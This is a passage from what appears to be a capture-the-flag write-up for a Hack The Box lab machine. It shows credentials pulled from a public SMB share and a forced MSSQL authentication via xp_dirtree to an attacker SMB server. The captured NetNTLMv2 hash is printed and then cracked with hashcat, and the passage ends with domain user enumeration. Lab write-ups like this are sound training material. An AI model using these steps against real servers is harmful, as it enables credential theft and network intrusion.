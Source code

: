 <img alt="Pasted image 20231230162532" src="https://github.com/iammR0OT/HTB/assets/74102381/a1fae197-d333-47ce-9ccd-e1832349c201">

Most of these shares are system default shares except the **public** share, Lets look into it and we found a .pdf file in it,

<img alt="Pasted image 20231230171813" src="https://github.com/iammR0OT/HTB/assets/74102381/fb5c1879-149d-491a-81d7-2a01e49f2acf">

Now lets download it to our attacker machine using **get** command, and open it . and we found something juicy in it, a user and a password for MSSQL. 

<img  alt="Pasted image 20231230174207" src="https://github.com/iammR0OT/HTB/assets/74102381/74f56854-092f-40a3-afc9-f47f34834a67">

	`PublicUser:GuestUserCantWrite1`
To connect with MSSQL we will use mssqlient.py from impacket toolkit with command `mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@10.129.229.219`, and we are inside the database.

<img alt="Pasted image 20231230182326" src="https://github.com/iammR0OT/HTB/assets/74102381/2e23b7ee-dc17-453b-ab74-7d6f209652bf">

I tried to crawl the databases but didn't found anything useful. :/
After reading through the [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) article on **MSSQL** testing, i **found Steal NetNTLM hash / Relay attack** heading that we can steal NTLM hash of that account from DC and can use pass the hash or perform bruteforce attack to get plain text password, Let's do it.
First we need to start SMB server to capture the hash used in authentication part. To start SMB server we can use both **responder** or **impacket-smbserver**, We will go the **impacket-smbserver**  

<img alt="Pasted image 20231230184459" src="https://github.com/iammR0OT/HTB/assets/74102381/692fa836-44b0-4965-8397-5b7b45616f27">

Now run `xp_dirtree '\\<attacker_IP>\any\thing'` on **MSSQL**, 

<img  alt="Pasted image 20231230184605" src="https://github.com/iammR0OT/HTB/assets/74102381/7dc17a53-6078-408d-b4e8-9b290c4cf336">

Now go back to you smb server and boom we got hash for SQL service account. 

<img alt="Pasted image 20231230184726" src="https://github.com/iammR0OT/HTB/assets/74102381/809d0b14-6bc3-40e9-bede-4169fff44a1f">

```
sql_svc::sequel:aaaaaaaaaaaaaaaa:1bcb673bf8cb362a65542e8335a08fea:0101000000000000003c5513263bda019a730f0037544184000000000100100061005500770078006f006e006d0057000300100061005500770078006f006e006d0057000200100077004400530059004b004a00690051000400100077004400530059004b004a006900510007000800003c5513263bda01060004000200000008003000300000000000000000000000003000006e4fd04313c4f410a5aa3ba1747dcac85ad066f128cec6d99026ee20511e76480a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310037002e003100350038000000000000000000
```
Let's crack it using hashcat using command `hashcat hash.txt password-wordlist`, and we got a password for SQL_SVC account. 
	`sql_svc: REGGIE1234ronnie`

<img  alt="Pasted image 20231230185240" src="https://github.com/iammR0OT/HTB/assets/74102381/9531ee74-7e34-493f-a490-8a427a1cb954">

Form SMB shares we have come to know that the anonymous login is allowed because we were able to see the shares without any valid credientials, we can use tool from impacket toolkit called **lookupsid** to enumerate users and their SID on domain. for this we will use command `impacket-lookupsid <domain>/anonymous@<ip> -no-pass` here -no-pass is for not asking the password, and we get a list of users and their SID on domain `sequel.htb`
